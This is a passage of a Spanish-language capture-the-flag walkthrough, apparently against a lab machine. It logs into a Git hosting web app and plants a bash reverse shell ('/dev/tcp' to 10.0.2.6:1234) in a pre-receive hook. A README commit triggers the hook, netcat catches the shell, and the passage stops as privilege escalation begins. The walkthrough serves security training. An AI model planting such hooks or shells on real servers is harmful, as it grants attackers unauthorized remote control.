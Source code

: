 	sudo nano /etc/hosts

![[Pasted image 20240408234906.png]]

Y probamos si funciona.

![[Pasted image 20240408234945.png]]

Nos dirigimos al apartado de Login, e ingresamos las credenciales.

![[Pasted image 20240408235039.png]]

Y listo. Ahora, nos queda revisar la pagina, y justamente de frente tenemos commits que se han realizado y a la derecha el un repositorio, vamos a revisarlo.

![[Pasted image 20240408235552.png]]

Ahora ya nos encontramos un paso mas cerca de poder vulnerar la maquina por completo.

Aprovechándonos del repositorio que encontramos, lo que haremos será, inyectar una Reverse Shell en el repositorio con el objetivo de, al ejecutarse, este sea cargado por el servidor y podamos iniciar sesión con el mismo usuario. Para ellos nos dirigimos a: **Settings > Git Hooks** y seleccionamos **pre-receive** y cargamos el siguiente código.

	/bin/bash -i >& /dev/tcp/10.0.2.6/1234 0>&1

![[Pasted image 20240409004017.png]]

Y le damos en **Update Hook**. Ahora para que este ejecute los cambios, debemos realizar un cambio directamente en el repositorio, asi que nos vamos a ello. En esta ocacion afectaremos el archivo **README.md**.

![[Pasted image 20240409004220.png]]


> [!TIP] Motivos
> Basandonos en aspectos de la realidad, modificar directamente los archivos de un repositorio puede traer errores o cambios notorios en la web, asi que es mejor realizar cambios en el readme, ya que no afecta directamente.

Ahora, solo nos queda levantar el [[Recursos#nc|netcat]] para poder guardar los cambios.

![[Pasted image 20240409004438.png]]

Ahora si, guardamos los cambios realizados en el archivo y hacemos **Commit Changes**.

![[Pasted image 20240409004843.png]]

Y listo!!!, estamos dentro de la maquina. Ahora solo nos queda escalar privilegios.

Lo primero que haremos será ver que tipo de permisos poseemos, para ello ejecutamos el comando

	sudo -l

![[Pasted image 20240409005001.png]]
